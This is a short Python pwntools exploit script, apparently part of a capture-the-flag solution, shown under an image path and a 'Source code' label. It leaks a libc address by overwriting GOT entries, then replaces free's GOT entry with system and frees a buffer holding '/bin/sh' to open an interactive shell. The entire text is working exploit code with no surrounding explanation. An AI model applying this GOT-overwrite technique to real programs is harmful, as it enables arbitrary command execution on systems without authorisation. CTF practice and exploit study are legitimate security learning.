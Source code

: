 ```python
renew(2,p64(puts_PLT))

# Now change big secret to atoi_GOT
renew(1,p64(0x00) + p64(atoi_GOT))

# Wipe big secret to get libc address leak
wipe(2)
s.recvline()
libc_base=u64(s.recv(6).ljust(8,"\x00"))-0x36e70
log.info("LIBC LEAK = " + hex(libc_base))
system=libc_base + libc.symbols['system']
log.info("System = " + hex(system))

# Overwite free_GOT with system, write "/bin/sh" in bss and free it.
renew(1,"/bin/sh\x00" + p64(free_GOT) + p64(0x00) + p64(0x6020b8) + p32(0x1)*3)
renew(2,p64(system))
wipe(1)

s.interactive()
```
